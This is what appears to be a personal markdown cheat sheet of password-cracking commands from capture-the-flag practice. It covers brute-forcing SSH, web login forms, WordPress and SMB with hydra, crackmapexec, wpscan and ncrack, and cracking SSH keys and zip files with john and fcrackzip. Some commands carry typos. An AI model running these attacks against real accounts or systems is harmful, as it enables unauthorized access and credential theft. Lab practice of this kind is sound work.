 #crackPass 

# HYDRA [[Hydra-Password-Cracking-Cheatsheet.pdf]]

# ssh
```
crackmapexec ssh 10.10.11.247 -u users -p 'passwd' -ontinue-on-success
```
## dict
```
hydra $ip -s 22 ssh -l -P big_wordlist.txt
```
## crack ssh key
```
 ssh2john key > hash
 ```
 ```
 john hash -wordlist=/usr/share/wordlists/rockyou.txt
```

# crack form login
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $ip http-form-post '/admin/:username=^USER^&password=^PASS^:F=Incorrect Credentials' -V
```

# wordpress
```
wpscan --url $ip -P /home/kali/Desktop/Chall/thm/fsocity.dic.m -U Elliot
```
# mkpasswd
make hash for a passwd
```
mkpasswd -m sha-512 password1234
```

# smb
`ncrack --vv --user <user> -P <password> smb://@ip`

# file.zip
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

# john
## formats list
```
john --list=FORMATS
```